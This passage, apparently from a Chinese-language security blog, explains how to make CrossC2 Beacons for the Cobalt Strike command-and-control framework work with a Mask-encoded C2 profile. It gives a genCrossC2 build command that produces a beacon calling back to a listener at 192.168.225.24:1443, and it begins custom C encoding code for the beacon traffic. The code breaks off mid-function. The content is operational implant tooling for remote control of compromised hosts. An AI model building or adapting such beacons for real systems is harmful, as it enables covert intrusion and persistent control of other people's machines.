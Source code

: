 ```
./genCrossC2.MacOS 192.168.225.24 1443 .cobaltstrike.beacon_keys lib_rebind_test.so Linux x64 ./test


```

运行上线，此时在带 C2-Profile 的情况下能正常上线 CrossC2 的 Beacon。

![](https://mmbiz.qpic.cn/mmbiz_png/TegOSv0yja6ecyyPNE0XGg8iaOA6gWRAUMYmKSoickwZyfeTZQSBcJHXyKFfJn3cfVibKdyfJpFHy6zjB4OagKe9A/640?wx_fmt=png)

实现方式 2  

---------

在不去掉 C2-Profile 中的 Mask 编码，需要自己实现 Mask 的编码和解码逻辑方式如下。

非专业写 c 全靠临时百度硬编出来的，轻点喷。

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <time.h>

static const char *BASE64_STR_CODE = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/";
static const short BASE64_INT_CODE[] = {-1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1,
                                        -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1,
                                        -1, -1, -1, 62, -1, -1, -1, 63, 52, 53, 54, 55, 56, 57, 58, 59, 60, 61, -1, -1,
                                        -1, -1, -1, -1, -1, 0, 1, 2, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14, 15, 16,
                                        17, 18, 19, 20, 21, 22, 23, 24, 25, -1, -1, -1, -1, -1, -1, 26, 27, 28, 29, 30,
                                        31, 32, 33, 34, 35, 36, 37, 38, 39, 40, 41, 42, 43, 44, 45, 46, 47, 48, 49, 50,
                                        51};
static const short BASE64_INT_LENGTH = sizeof(BASE64_INT_CODE) / sizeof(BASE64_INT_CODE[0]);

void base64_decode_to_ascii(char *base64Str, long res[]) {
    int i = 0;
    int j = 0;
    int v1 = 0;
    int v2 = 0;
    int v3 = 0;
    int base64StrLength = strlen(base64Str);

    for (i = 0; i < base64StrLength; ++i) {
        char ascii = base64Str[i];
        if (ascii == 0x20 | ascii == '\n' | ascii == '\t') {
            break;
        } else {
            if (ascii == '=') {
                ++v3;
                v1 <<= 6;
                ++v2;
                switch (v2) {
                    case 1:
                    case 2:
                        return;
                    case 3:
                        break;
```